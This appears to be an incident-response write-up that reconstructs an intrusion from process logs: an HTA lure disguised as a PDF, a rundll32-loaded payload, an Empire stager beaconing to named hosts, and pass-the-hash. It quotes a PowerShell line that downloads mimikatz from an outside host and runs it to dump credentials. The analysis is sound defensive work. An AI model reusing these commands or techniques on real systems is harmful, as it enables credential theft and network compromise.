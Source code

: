 
### Attack Vectors

#### Initial Compromise
The attacker used an HTA file (`ProjectFinancialSummary_Q3.pdf.hta`) to execute malicious code:
```plaintext
2023-08-29T23:51:15.856Z evan.hutchinson	6392	2940	"C:\Windows\SysWOW64\mshta.exe" "D:\ProjectFinancialSummary_Q3.pdf.hta"
```

This spawned three processes:
```plaintext
2023-08-29T23:51:16.738Z evan.hutchinson	3832	6392	"C:\Windows\System32\xcopy.exe" /s /i /e /h D:\review.dat C:\Users\EVAN~1.HUT\AppData\Local\Temp\review.dat
2023-08-29T23:51:16.771Z evan.hutchinson	3680	6392	"C:\Windows\System32\rundll32.exe" D:\review.dat,DllRegisterServer
```

#### Empire Stager
The Empire stager was executed on multiple endpoints and communicated with `cdn.bananapeelparty.net:80` or `165.232.170.151:80`:
```bash
$ cat query_net.json
{
  "query": {
    "bool": {
      "must": { "term": { "process.pid": "6160" } },
      "should": [{ "match": { "event.category": "network" } }],
      "filter": { "range": { "@timestamp": { "gte": "2023-08-29T00:00:00", "lte": "2023-08-31T00:00:00" } } }
    }
  },
  "_source": ["@timestamp", "host.hostname", "source.ip", "source.port", "destination.ip", "destination.port"]
}
```

---

### Credential Harvesting

#### Mimikatz Execution
The attacker downloaded and executed `mimikatz.exe` to dump credentials:
```plaintext
2023-08-30T01:46:18 evan.hutchinson	<mimikatz_pid>	<parent_pid>	"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "iwr http://ff.sillytechninja.io/mimikatz.exe -outfile mimikatz.exe; .\mimikatz.exe"
```

#### Pass-the-Hash
Using the dumped credentials, the attacker performed a Pass-the-Hash attack:
```plaintext
2023-08-30T01:31:39 Pass-the-Hash using the Domain Administrator on WKSTN-1327.
```

---